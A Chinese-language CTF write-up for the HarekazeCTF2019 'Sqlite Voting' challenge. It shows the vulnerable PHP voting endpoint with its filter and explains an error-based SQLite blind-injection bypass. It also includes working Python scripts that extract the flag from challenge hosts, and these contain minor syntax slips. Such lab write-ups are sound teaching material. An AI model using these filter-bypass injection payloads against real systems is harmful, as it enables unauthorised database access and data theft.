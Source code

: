 ```yaml
---
title: '[HarekazeCTF2019]Sqlite Voting'
date: 2024-11-12 14:15:46
tags:
      - sql注入
      - sqlite3 盲注
categories: 刷题笔记
---
```


### [HarekazeCTF2019]Sqlite Voting

我们在页面看见了投票的源码和数据库

![image-20241112144805599](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411121448740.png)

我们在schema.sql里发现了flag表

```sql
DROP TABLE IF EXISTS `vote`;
CREATE TABLE `vote` (
  `id` INTEGER PRIMARY KEY AUTOINCREMENT,
  `name` TEXT NOT NULL,
  `count` INTEGER
);
INSERT INTO `vote` (`name`, `count`) VALUES
  ('dog', 0),
  ('cat', 0),
  ('zebra', 0),
  ('koala', 0);

DROP TABLE IF EXISTS `flag`;
CREATE TABLE `flag` (
  `flag` TEXT NOT NULL
);
INSERT INTO `flag` VALUES ('HarekazeCTF{<redacted>}');
```

在vote.php里给出了查询sql的语句

```php
<?php
error_reporting(0);

if (isset($_GET['source'])) {
  show_source(__FILE__);
  exit();
}

function is_valid($str) {
  $banword = [
    // dangerous chars
    // " % ' * + / < = > \ _ ` ~ -
    "[\"%'*+\\/<=>\\\\_`~-]",
    // whitespace chars
    '\s',
    // dangerous functions
    'blob', 'load_extension', 'char', 'unicode',
    '(in|sub)str', '[lr]trim', 'like', 'glob', 'match', 'regexp',
    'in', 'limit', 'order', 'union', 'join'
  ];
  $regexp = '/' . implode('|', $banword) . '/i';
  if (preg_match($regexp, $str)) {
    return false;
  }
  return true;
}

header("Content-Type: text/json; charset=utf-8");

// check user input
if (!isset($_POST['id']) || empty($_POST['id'])) {
  die(json_encode(['error' => 'You must specify vote id']));
}
$id = $_POST['id'];
if (!is_valid($id)) {
  die(json_encode(['error' => 'Vote id contains dangerous chars']));
}

// update database
$pdo = new PDO('sqlite:../db/vote.db');
$res = $pdo->query("UPDATE vote SET count = count + 1 WHERE id = ${id}");
if ($res === false) {
  die(json_encode(['error' => 'An error occurred while updating database']));
}

// succeeded!
echo json_encode([
  'message' => 'Thank you for your vote! The result will be published after the CTF finished.'
]);
```

从源码来看，我们要post传一个id，但传递的id过滤了许多sql注入关键字，并且过滤了char和"和‘，所以我们无法使用 ASCII 码和字符进行判断

我们注意到源码给出了sql注入的语句，同时update的成功与失败分别对应不同的页面，因此我们可以考虑sql盲注

```php
$pdo = new PDO('sqlite:../db/vote.db');
$res = $pdo->query("UPDATE vote SET count = count + 1 WHERE id = ${id}");
if ($res === false) {
  die(json_encode(['error' => 'An error occurred while updating database']));
}

// succeeded!
echo json_encode([
  'message' => 'Thank you for your vote! The result will be published after the CTF finished.'
]);
```

由于源码进行了过滤，我们考虑用hex进行字符判断，将所有的字符串组合用有限的36个字符表示

先考虑对 flag 16 进制长度的判断，假设它的长度为 `x`，`y` 表示 2 的 n 次方，那么 `x&y` 就能表现出 `x` 二进制为 1 的位置，将这些 `y` 再进行或运算就可以得到完整的 `x` 的二进制，也就得到了 flag 的长度，而 `1<<n` 恰可以表示 2 的 n 次方

那如何构造报错语句，在sqlite3中abs函数有一个整数溢出的报错，如果abs的参数是`-9223372036854775808` 就会报错，同样如果是正数也会报错

![image-20241112150939325](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411121509362.png)

判断长度的 payload : `abs(case(length(hex((select(flag)from(flag))))&{1<<n})when(0)then(0)else(0x8000000000000000)end)`



脚本

```python
import requests

url = "http://fd9989d6-f121-47bc-835b-ac5537d1d693.node5.buuoj.cn:81/vote.php"
l = 0
  for n in range(16):
    payload = f'abs(case(length(hex((select(flag)from(flag))))&{1<<n})when(0)then(0)else(0x8000000000000000)end)'
    data = {
        'id' : payload
    }

    r = requests.post(url=url, data=data)
    print(r.text)
    if 'occurred' in r.text:
        l = l|1<<n

 print(l)
```

![image-20241112152113194](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411121521227.png)

爆出来flag长度为84

然后考虑逐字符进行判断，但是is_vaild()过滤了大部分截取字符的函数，而且也无法用ascii码进行判断

这一题对盲注语句的构造很巧妙，首先利用如下语句分别构造出 `ABCDEF` ，这样十六进制的所有字符都可以使用了，并且使用 `trim(0,0)` 来表示空字符

```python
# hex(b'zebra') = 7A65627261
# 除去 12567 就是 A ，其余同理
A = 'trim(hex((select(name)from(vote)where(case(id)when(3)then(1)end))),12567)'

C = 'trim(hex(typeof(.1)),12567)'

D = 'trim(hex(0xffffffffffffffff),123)'

E = 'trim(hex(0.1),1230)'

F = 'trim(hex((select(name)from(vote)where(case(id)when(1)then(1)end))),467)'

# hex(b'koala') = 6B6F616C61
# 除去 16CF 就是 B
B = f'trim(hex((select(name)from(vote)where(case(id)when(4)then(1)end))),16||{C}||{F})'
```

然后逐字符进行爆破，已经知道 flag 格式为 `flag{}` ，`hex(b'flag{')==666C61677B` ，在其后面逐位添加十六进制字符，构成 paylaod

再利用 `replace(length(replace(flag,payload,''))),84,'')` 这个语句进行判断

如果 flag 不包含 payload ，那么得到的 `length` 必为 84 ，最外面的 `replace` 将返回 `false` ，通过 `case when then else` 构造 `abs` 参数为 `0` ，它不报错

如果 flag 包含 payload ，那么 `replace(flag, payload, '')` 将 flag 中的 payload 替换为空，得到的 `length` 必不为 84 ，最外面的 `replace` 将返回 `true` ，通过 `case when then else` 构造 `abs` 参数为 `0x8000000000000000` 令其报错

以上就可以根据报错爆破出 flag，最后附上出题人脚本

```python
# coding: utf-8
import binascii
import time

import requests
URL = 'http://1f876c16-71c9-4df0-b63c-99f9e7d43b88.node5.buuoj.cn:81/vote.php'
l = 84

header={'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36'}

table = {}
table['A'] = 'trim(hex((select(name)from(vote)where(case(id)when(3)then(1)end))),12567)'
table['C'] = 'trim(hex(typeof(.1)),12567)'
table['D'] = 'trim(hex(0xffffffffffffffff),123)'
table['E'] = 'trim(hex(0.1),1230)'
table['F'] = 'trim(hex((select(name)from(vote)where(case(id)when(1)then(1)end))),467)'
table['B'] = f'trim(hex((select(name)from(vote)where(case(id)when(4)then(1)end))),16||{table["C"]}||{table["F"]})'


res = binascii.hexlify(b'flag{').decode().upper()
for i in range(len(res), l):
  for x in '0123456789ABCDEF':
    t = '||'.join(c if c in '0123456789' else table[c] for c in res + x)
    r = requests.post(URL, data={
      'id': f'abs(case(replace(length(replace(hex((select(flag)from(flag))),{t},trim(0,0))),{l},trim(0,0)))when(trim(0,0))then(0)else(0x8000000000000000)end)'
        //基本原理是用replace将已知的flag部分替换为空，通过长度变化与否一位一位爆出来
    },headers=header)
    if 'An error occurred' in r.text:
      res += x
      break
    time.sleep(0.06)
  # print(f'[+] flag ({i}/{l}): {res}')
  print('flag(hex): ',res)
  i += 1
# print('[+] flag:', binascii.unhexlify(res).decode())
print(binascii.unhexlify(res).decode())
```



**sqlite3 盲注 bypass ，利用 replace() 和 length 进行爆破，trim() 替换空字符，trim() 和 hex() 构造字符，& 特性获取长度等等，在 mysql 中也存在溢出的现象**

参考

https://blog.csdn.net/SopRomeo/article/details/108954685

https://xz.aliyun.com/t/6628?time__1311=n4%2BxnD0Dg7%3DWqrxBqooGkDuiRfQ4D5DkiCUjeD#toc-4
